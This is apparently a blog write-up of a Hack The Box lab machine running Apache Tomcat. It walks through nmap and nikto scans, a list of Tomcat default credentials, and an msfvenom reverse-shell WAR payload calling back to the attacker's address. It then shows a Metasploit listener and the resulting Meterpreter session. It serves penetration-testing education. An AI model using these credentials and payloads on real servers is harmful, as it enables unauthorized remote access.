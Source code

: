 ```yaml
---
published: true
---
```

Hackthebox.eu virtual machine; Simple box, tomcat running as system with default credentials uploads malicious WAR file.

----------

Legal Usage:
*The information provided by execute@will is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*

*By continued reading, you acknowledge the aforementioned user risks/responsibilities.*

----------
# 1. Enumeration

Nmap

    # nmap -sC -sV -oA htb 10.10.10.95
    
    Starting Nmap 7.70 ( https://nmap.org ) at 2018-10-17 07:13 EDT
    Nmap scan report for 10.10.10.95
    Host is up (0.19s latency).
    Not shown: 999 filtered ports
    PORT     STATE SERVICE VERSION
    8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
    |_http-favicon: Apache Tomcat
    |_http-server-header: Apache-Coyote/1.1
    |_http-title: Apache Tomcat/7.0.88
- Discovered Apache Tomcat/7.0.88 on port 8080

Nikto

    # nikto -h 10.10.10.95:8080
    
    - Nikto v2.1.6
    ---------------------------------------------------------------------------
    + Target IP:          10.10.10.95
    + Target Hostname:    10.10.10.95
    + Target Port:        8080
    ---------------------------------------------------------------------------
    + Server: Apache-Coyote/1.1
    + The anti-clickjacking X-Frame-Options header is not present.
    + The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
    + The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
    + No CGI Directories found (use '-C all' to force check all possible dirs)
    + Server leaks inodes via ETags, header found with file /favicon.ico, fields: 0xW/21630 0x1525691762000
    + OSVDB-39272: favicon.ico file identifies this server as: Apache Tomcat
    + Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS
    + OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
    + OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
    + Web Server returns a valid response with junk HTTP methods, this may cause false positives.
    + /examples/servlets/index.html: Apache Tomcat default JSP pages present.
    + OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
- Discovered Apache Tomcat and JSP vulnerability
# 2. Navigate to 10.10.10.95:8080
![8080.jpg](https://github.com/executeatwill/ctf/blob/gh-pages/_posts/8080.jpg?raw=true)


“access: http://10.10.10.95:8080/manager/html "Manager App"
Username: tomcat
Password: s3cret

    list of Apache Default Credentials 
    Username Password
    admin     password
    admin     
    admin     Password1
    admin     password1
    admin     admin
    admin     tomcat
    both     tomcat
    manager manager
    role1     role1
    role1     tomcat
    role     changethis
    root     Password1
    root     changethis
    root     password
    root     password1
    root     r00t
    root     root
    root     toor
    tomcat     tomcat
    tomcat     s3cret
    tomcat     password1
    tomcat     password
    tomcat     
    tomcat     admin
    tomcat     changethis

source: https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown

# 3. Attack Vector

utilizing a specialied WAR file we can upload to the server and access a .jsp that will allow access to the system

![war.jpg](https://github.com/executeatwill/ctf/blob/gh-pages/_posts/war.jpg?raw=true)


Crafting WAR file:
tools: msfvenom

    msfvenom -p payload/windows/shell/reverse_tcp  LHOST=10.10.13.75 LPORT=9000 -f war -o war.war
    No encoder or badchars specified, outputting raw payload
    Payload size: 341 bytes
    Final size of war file: 52304 bytes
    Saved as: war.war

extract file:

    jar -xvf war.war 
    created: META-INF/
    inflated: META-INF/MANIFEST.MF
    created: WEB-INF/
    inflated: WEB-INF/web.xml
    inflated: yewdmyrhyi.jsp
- Extracted .jsp will be coded by msfvenom and will change. The war.war will be uploaded via the deployment section. Before accessing .jsp creation of listener is required.
# 4. Setup Listener

tool: msf

    msfdb run
- quick way to start postgres and metasploit framework

after initilzation:

    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set LHOST LOCALIP
    set LPORT 9000
    exploit

Access: http://10.10.10.95/war/yewdmyrhyi.jsp

- wait for reverse tcp connection
    [*] Started reverse TCP handler on 10.10.13.75:9002
    [*] Sending stage (179779 bytes) to 10.10.10.95
    [*] Meterpreter session 1 opened (10.10.13.75:9002 -> 10.10.10.95:49200) at 2018-10-17 06:52:41 -0400
    msf exploit(multi/handler) > sessions -i 1
    [*] Starting interaction with 1...
    
    meterpreter > dir
    
   Listing: C:\apache-tomcat-7.0.88
    ================================
    
    Mode              Size   Type  Last modified              Name
    ----              ----   ----  -------------              ----
    100666/rw-rw-rw-  57896  fil   2018-05-07 07:16:00 -0400  LICENSE
    100666/rw-rw-rw-  1275   fil   2018-05-07 07:16:00 -0400  NOTICE
    100666/rw-rw-rw-  9600   fil   2018-05-07 07:16:00 -0400  RELEASE-NOTES
    100666/rw-rw-rw-  17454  fil   2018-05-07 07:16:00 -0400  RUNNING.txt
    40777/rwxrwxrwx   8192   dir   2018-06-18 21:06:55 -0400  bin
    100666/rw-rw-rw-  0      fil   2018-10-17 13:38:59 -0400  cd
    40777/rwxrwxrwx   4096   dir   2018-06-18 23:47:35 -0400  conf
    40777/rwxrwxrwx   8192   dir   2018-06-18 21:06:55 -0400  lib
    40777/rwxrwxrwx   8192   dir   2018-10-17 13:29:45 -0400  logs
    100666/rw-rw-rw-  113    fil   2018-10-17 13:38:58 -0400  shell
    40777/rwxrwxrwx   4096   dir   2018-10-17 13:55:19 -0400  temp
    40777/rwxrwxrwx   4096   dir   2018-10-17 13:55:15 -0400  webapps
    40777/rwxrwxrwx   0      dir   2018-06-18 21:34:12 -0400  work

Navigate to flag: C:\Users\Administrator\Desktop\flags
read file with `meterpreter > cat "2 for the price of 1.txt"`

# 5. Final Thoughts

As a beginner level box there is a wide assortment of things that can be learned. From discovering/exploiting the PUT .jsp within Apatche Tomcat, along with the complexity of standard CVE scripts could not be used due to the nature of how the server was set up. All these tasks could have been streamlined within the Metasploit Framework but it's best practice to use msfvenom and craft payloads while understanding how exactly they will function.
-exec@will

# 6. Further Learning/Sources:
- [http://blog.opensecurityresearch.com/2012/09/manually-exploiting-tomcat-manager.html](http://blog.opensecurityresearch.com/2012/09/manually-exploiting-tomcat-manager.html)
- [https://pentestlab.blog/2012/08/26/using-metasploit-to-create-a-war-backdoor/](https://pentestlab.blog/2012/08/26/using-metasploit-to-create-a-war-backdoor/)
- [https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
- [https://www.windows-commandline.com/read-file-from-command-line/](https://www.windows-commandline.com/read-file-from-command-line/)
